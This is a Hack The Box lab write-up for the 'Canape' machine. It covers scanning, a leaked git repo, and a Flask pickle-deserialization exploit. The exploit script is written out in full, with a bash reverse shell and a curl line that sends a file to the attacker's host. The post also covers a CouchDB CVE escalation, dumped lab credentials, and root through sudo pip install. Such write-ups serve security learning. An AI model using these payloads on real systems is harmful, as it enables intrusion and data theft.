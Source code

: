 ```yaml
---
layout: post
title: HTB - canape
date: 2024-12-26 19:26 -0400
render_with_liquid: false
---
```


![image](/assets/img/canape.png)

Canape is one of the most popular boxes on htb. The first step involves finding the source code through a git repo. After that we exploit a pickle deserialization to get a shell as `www-data`. Then we use one of the couchdb CVEs to escalate to the `homer` user. And finally we use sudo privileges on pip to get the `root` shell.

# steps
- nmap
- subdomain bruteforce

# nmap
Starting with nmap we get a `.git`.
```console
~/workspace/projects/htb/canape » nmap -p- --min-rate 1024 $(cat ip.txt)
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-23 12:58 -04
Stats: 0:00:32 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 25.55% done; ETC: 13:00 (0:01:33 remaining)
Nmap scan report for 10.10.10.70
Host is up (0.16s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
65535/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 128.50 seconds
~/workspace/projects/htb/canape » nmap -p 80,65535 -A --min-rate 1024 $(cat ip.txt)           1 ↵ shafou@shafou
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-23 13:00 -04
Nmap scan report for canape.htb (10.10.10.70)
Host is up (0.20s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Simpsons Fan Site
|_http-trane-info: Problem with XML parsing of /evox/about
| http-git:
|   10.10.10.70:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: final # Please enter the commit message for your changes. Li...
|     Remotes:
|_      http://git.canape.htb/simpsons.git
|_http-server-header: Apache/2.4.29 (Ubuntu)
65535/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8d820b3190e4c885b2538ba17c3b65e1 (RSA)
|   256 22fc6ec35500850f24bff5796c928b68 (ECDSA)
|_  256 0d912751805e2ba3810de9d85c9b7735 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.93 seconds
```

# flask app

![image](/assets/img/canape1.png)

On the git repo there is a flask app which is vulnerable to pickle deserialization.
```python
@app.route("/submit", methods=["GET", "POST"])
def submit():
    error = None
    success = None

    if request.method == "POST":
        try:
            char = request.form["character"]
            quote = request.form["quote"]
            if not char or not quote:
                error = True
            elif not any(c.lower() in char.lower() for c in WHITELIST):
                error = True
            else:
                # TODO - Pickle into dictionary instead, `check` is ready
                p_id = md5(char + quote).hexdigest()
                outfile = open("/tmp/" + p_id + ".p", "wb")
		outfile.write(char + quote)
		outfile.close()
	        success = True
        except Exception as ex:
            error = True

    return render_template("submit.html", error=error, success=success)

@app.route("/check", methods=["POST"])
def check():
    path = "/tmp/" + request.form["id"] + ".p"
    data = open(path, "rb").read()

    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data

    return "Still reviewing: " + item
```

This part can be tricky. But it's pretty easy if you use the `pickleassem` package. I got stuck here because I didn't realize that the character name could be anywhere on the payload.

- exploit:

```python
import requests
from hashlib import md5

from pickleassem import PickleAssembler

pa = PickleAssembler(proto=1)
pa.push_mark()
pa.util_push("bash -c 'bash -i >& /dev/tcp/10.10.14.41/4444 0>&1'; curl http://10.10.14.41:5000/ -d @/tmp/123; echo moe")
pa.build_inst('os', 'system')
pa.push_binstring('p1')
payload = pa.assemble()

burp0_url = "http://canape.htb:80/submit"

char = payload[:-1].decode()
quote = "."
burp0_data = {"character": char, "quote": quote}
res = requests.post(burp0_url, data=burp0_data, proxies={
    'http': 'http://0.0.0.0:8080',
    'https': 'https://0.0.0.0:8080'
})
a = md5((char + quote).encode()).hexdigest()
print(f"DEBUGPRINT[3]: req.py:12: a={a}")

burp0_url = "http://canape.htb:80/check"
burp0_data = {"id": a}
res = requests.post(burp0_url, data=burp0_data)
print(f"DEBUGPRINT[4]: req.py:17: res.text={res.text}")
```

# www-data
Some interesting files here but they don't lead anywhere.
The most interesting part is couchdb on `127.0.0.1:5986`
```json
{"couchdb":"Welcome","uuid":"132586dfde75b957085d59a5096e9c20","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
```

This version seems to be vulnerable to multiple cves. The one that worked was `CVE-2017-12636`. It gives us an admin user. We can then check the `passwords` db and find the ssh password for the `homer` user.
```console
DEBUGPRINT[2]: lab.py:29: res.text={"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"B4jyA0xtytZi7esBNGp","user":""}
DEBUGPRINT[2]: lab.py:29: res.text={"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
DEBUGPRINT[2]: lab.py:29: res.text={"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
DEBUGPRINT[2]: lab.py:29: res.text={"_id":"739c5ebdf3f7a001bebb8fc438004738","_rev":"1-49a20010e64044ee7571b8c1b902cf8c","user":"homerj0121","item":"github","password":"STOP STORING YOUR PASSWORDS HERE -Admin"}
```

# homer
```bash
homer@canape:~$ cat user.txt
9a3d7***************************
```

Running `sudo -l` on homer shows that we can run `pip` as root. 
```console
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```
Found this repo that has a poc for running code on pip install and adapted a little bit.
- [0wned](https://github.com/mschwager/0wned)

```bash
sudo /usr/bin/pip install ./0wned
homer@canape:/tmp/la$ cat root.txt
d8bf7***************************
```
